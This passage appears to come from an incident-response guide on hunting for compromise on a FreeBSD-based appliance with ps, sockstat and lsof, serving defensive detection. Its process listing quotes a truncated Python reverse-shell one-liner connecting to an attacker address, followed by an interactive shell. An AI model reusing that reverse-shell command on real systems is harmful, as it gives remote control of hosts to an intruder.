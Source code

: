 ### Processes

For FreeBSD, use the `-d` switch to show the parent processes. (Equiv to forrest, `-f` in GNU `ps`)
Specifically look out for child proceeses of httpd.
```
root@ns# ps auxd
USER        PID %CPU %MEM   VSZ   RSS  TT  STAT STARTED      TIME COMMAND
..
root        966  0.0  0.8 110392 12808  ??  Ss    7:59PM   0:02.11 |-- /bin/httpd
nobody     1013  0.0  1.0 131076 16096  ??  I     7:59PM   0:41.11 | |-- /bin/httpd
nobody     4437  0.0  0.9 137192 14620  ??  I    10:09PM   0:00.69 | |-- /bin/httpd
nobody     4438  0.0  1.3 135208 20488  ??  I    10:09PM   0:00.91 | |-- /bin/httpd
nobody     9560  0.0  1.5 131012 25236  ??  I    11:42PM   0:07.98 | |-- /bin/httpd
nobody     9561  0.0  1.5 131012 24700  ??  I    11:42PM   0:08.54 | |-- /bin/httpd
nobody    10683  0.0  0.8 37396 13564  ??  I    12:19AM   0:00.14 | | `-- /var/python/bin/python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.4",443));os
nobody    10684  0.0  0.1  8320  1364  ??  I    12:19AM   0:00.01 | |   `-- /bin/sh -i
```

The default processes observed in a fresh install is at the last section of this document.

Look for suspicious connections. In FreeBSD you can use `sockstat` with the `-c` swith to show connected sockets with the corresponding process. (Similar to `netstat -natp` which is not available).

In the following example, the attacker is `192.168.0.4`:

```
root@ns# sockstat -c -4 | awk '{ if (substr($7,1,8) != "127.0.0.") print $0}'
USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS      
nobody   sh         49870 0  tcp4   192.168.0.5:34623     192.168.0.4:443
nobody   sh         49870 1  tcp4   192.168.0.5:34623     192.168.0.4:443
nobody   sh         49870 2  tcp4   192.168.0.5:34623     192.168.0.4:443
nobody   sh         49870 3  tcp4   192.168.0.5:34623     192.168.0.4:443
nobody   python2.7  49869 0  tcp4   192.168.0.5:34623     192.168.0.4:443
nobody   python2.7  49869 1  tcp4   192.168.0.5:34623     192.168.0.4:443
nobody   python2.7  49869 2  tcp4   192.168.0.5:34623     192.168.0.4:443
nobody   python2.7  49869 3  tcp4   192.168.0.5:34623     192.168.0.4:443
nobody   httpd      43544 10 tcp4   127.0.0.1:80          192.168.0.4:29138
root     aslearn    1307  10 tcp4   127.0.0.1:3021        192.168.0.5:3011
root     nsconfigd  1260  19 tcp4   192.168.0.5:3010      192.168.0.5:33524
root     nsconfigd  1260  21 tcp4   192.168.0.5:3010      192.168.0.5:58614
```

We can dig deeper with `lsof` which is fortunately installed on the box (trimmed for brevity). Here we can see the TCP connections for a reverse shell, involved from the python interpreter:
```
root@ns# lsof -p 49869
COMMAND     PID   USER   FD   TYPE             DEVICE SIZE/OFF   NODE NAME
python2.7 49869 nobody  cwd   VDIR               0,59      512      2 /
python2.7 49869 nobody  rtd   VDIR               0,59      512      2 /
python2.7 49869 nobody  txt   VREG               0,69  6222951 216396 /var/python/bin/python2.7
python2.7 49869 nobody  txt   VREG               0,59   250704  27434 /libexec/ld-elf.so.1
python2.7 49869 nobody  txt   VREG               0,59  1268552  13718 /lib/libc.so.7
python2.7 49869 nobody  txt   VREG               0,69    40090 235543 /var/python/lib/python2.7/lib-dynload/_locale.so
python2.7 49869 nobody  txt   VREG               0,69   191268 235556 /var/python/lib/python2.7/lib-dynload/_socket.so
python2.7 49869 nobody  txt   VREG               0,59    85392  13814 /lib/libz.so.5
python2.7 49869 nobody    0u  IPv4 0xffffff0072278760      0t0    TCP 192.168.0.5:34623->192.168.0.4:https (ESTABLISHED)
python2.7 49869 nobody    1u  IPv4 0xffffff0072278760      0t0    TCP 192.168.0.5:34623->192.168.0.4:https (ESTABLISHED)
python2.7 49869 nobody    2u  IPv4 0xffffff0072278760      0t0    TCP 192.168.0.5:34623->192.168.0.4:https (ESTABLISHED)
python2.7 49869 nobody    3u  IPv4 0xffffff0072278760      0t0    TCP 192.168.0.5:34623->192.168.0.4:https (ESTABLISHED)
```